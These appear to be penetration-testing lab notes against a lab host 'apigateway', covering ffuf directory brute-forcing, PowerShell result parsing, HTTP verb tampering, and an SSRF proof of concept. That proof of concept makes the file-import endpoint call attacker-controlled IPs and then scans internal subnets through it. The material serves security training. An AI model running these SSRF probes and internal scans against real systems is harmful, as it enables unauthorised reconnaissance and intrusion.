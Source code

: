 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```